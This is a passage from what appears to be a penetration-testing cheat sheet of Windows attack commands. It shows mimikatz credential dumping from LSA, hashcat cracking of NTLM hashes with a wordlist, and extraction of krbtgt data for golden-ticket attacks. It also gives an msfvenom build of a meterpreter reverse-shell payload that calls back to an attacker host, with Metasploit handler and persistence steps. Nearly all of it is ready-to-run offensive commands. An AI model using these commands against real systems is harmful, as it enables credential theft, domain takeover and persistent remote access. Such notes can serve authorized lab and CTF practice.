     cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /patch
    hashcat -m 1000 <hash.text> usr/share/wordlists/rockyou.txt

### Golden ticket attacks with mimikatz

    cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /inject /name:krbtgt

### Maintaining Access

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

Transfer the payload from your attacker machine to the target machine and `use exploit/multi/handler`,
then execute the binary this will give a meterpreter shell back in metasploit. Background it.

    use exploit/windows/local/persistence
    set session 1

